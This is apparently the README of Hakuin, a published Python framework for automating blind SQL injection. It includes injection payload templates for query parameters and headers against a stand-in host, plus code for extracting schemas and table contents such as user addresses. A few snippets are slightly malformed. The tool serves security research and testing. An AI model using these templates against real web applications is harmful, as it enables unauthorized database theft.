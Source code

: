 <p align="center">
    <img width="150" src="https://raw.githubusercontent.com/pruzko/hakuin/main/logo.png">
</p>

Hakuin is a Blind SQL Injection (BSQLI) optimization and automation framework written in Python 3. It abstract away the inference logic and allows users to easily and efficiently extract databases (DB) from vulnerable web applications. To speed up the process, Hakuin uses pre-trained language models for DB schemas and adaptive language models in combination with opportunistic string guessing for textual DB content.

Hakuin has been presented at esteemed academic and industrial conferences:
- [BlackHat MEA, Riyadh](https://blackhatmea.com/session/hakuin-injecting-brain-blind-sql-injection), 2023
- [Hack in the Box, Phuket](https://conference.hitb.org/hitbsecconf2023hkt/session/hakuin-injecting-brains-into-blind-sql-injection/), 2023
- [IEEE S&P Workshop on Offsensive Technology (WOOT)](https://wootconference.org/papers/woot23-paper17.pdf), 2023

More information can be found in our [paper](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_WOOT_23.pdf) and [slides](https://github.com/pruzko/hakuin/blob/main/publications/Hakuin_HITB_23.pdf).


## Installation
To install Hakuin, simply run:
```
pip3 install hakuin
```
Developers should install the package locally and set the `-e` flag for editable mode:
```
git clone git@github.com:pruzko/hakuin.git
cd hakuin
pip3 install -e .
```


## Examples
Once you identify a BSQLI vulnerability, you need to tell Hakuin how to inject its queries. To do this, derive a class from the `Requester` and override the `request` method. Also, the method must determine whether the query resolved to `True` or `False`.


##### Example 1 - Query Parameter Injection with Status-based Inference
```python
import requests
from hakuin import Requester

class StatusRequester(Requester):
    def request(self, ctx, query):
        r = requests.get(f'http://vuln.com/?n=XXX" OR ({query}) --')
        return r.status_code == 200
```

##### Example 2 - Header Injection with Content-based Inference
```python
class ContentRequester(Requester):
    def request(self, ctx, query):
        headers = {'vulnerable-header': f'xxx" OR ({query}) --'}
        r = requests.get(f'http://vuln.com/', headers=headers)
        return 'found' in r.content.decode()
```

To start extracting data, use the `Extractor` class. It requires a `DBMS` object to contruct queries and a `Requester` object to inject them. Currently, Hakuin supports SQLite and MySQL DBMSs, but will soon include more options. If you wish to support another DBMS, implement the `DBMS` interface defined in `hakuin/dbms/DBMS.py`.

##### Example 1 - Extracting SQLite DBs
```python
from hakuin.dbms import SQLite
from hakuin import Extractor, Requester

class StatusRequester(Requester):
    ...

ext = Extractor(requester=StatusRequester(), dbms=SQLite())
```

##### Example 2 - Extracting MySQL DBs
```python
from hakuin.dbms import MySQL
...
ext = Extractor(requester=StatusRequester(), dbms=MySQL())
```

Now that eveything is set, you can start extracting DB schemas.

##### Example 1 - Extracting DB Schemas
```python
# strategy:
#   'binary':   Use binary search
#   'model':    Use pre-trained models
schema = ext.extract_schema(strategy='model')
```

```

##### Example 2 - Extracting only Table/Column Names
```python
tables = ext.extract_table_names(strategy='model')
columns = ext.extract_column_names(table='users', strategy='model')
```

Once you know the schema, you can extract the actual content.

##### Example 1 - Extracting Textual Columns
```python
# strategy:
#   'binary':       Use binary search
#   'fivegram':     Use five-gram model
#   'unigram':      Use unigram model
#   'dynamic':      Dynamically identify the best strategy. This setting
#                   also enables opportunistic guessing.
res = ext.extract_column_text(table='users', column='address', strategy='dynamic'):
```

##### Example 2 - Extracting Integer Columns
```python
res = ext.extract_column_int(table='users', column='id'):
```

##### Example 3 - Extracting Float Columns
```python
res = ext.extract_column_float(table='products', column='price'):
```

##### Example 4 - Extracting Blob (Binary Data) Columns
```python
res = ext.extract_column_blob(table='users', column='id'):
```

More examples can be found in the `tests` directory.



## For Researchers
This repository is actively developed to fit the needs of security practitioners. Researchers looking to reproduce the experiments described in our paper should install the [frozen version](https://zenodo.org/record/7804243) as it contains the original code, experiment scripts, and an instruction manual for reproducing the results.


#### Cite Hakuin
```
@inproceedings{hakuin_bsqli,
  title={Hakuin: Optimizing Blind SQL Injection with Probabilistic Language Models},
  author={Pru{\v{z}}inec, Jakub and Nguyen, Quynh Anh},
  booktitle={2023 IEEE Security and Privacy Workshops (SPW)},
  pages={384--393},
  year={2023},
  organization={IEEE}
}
```
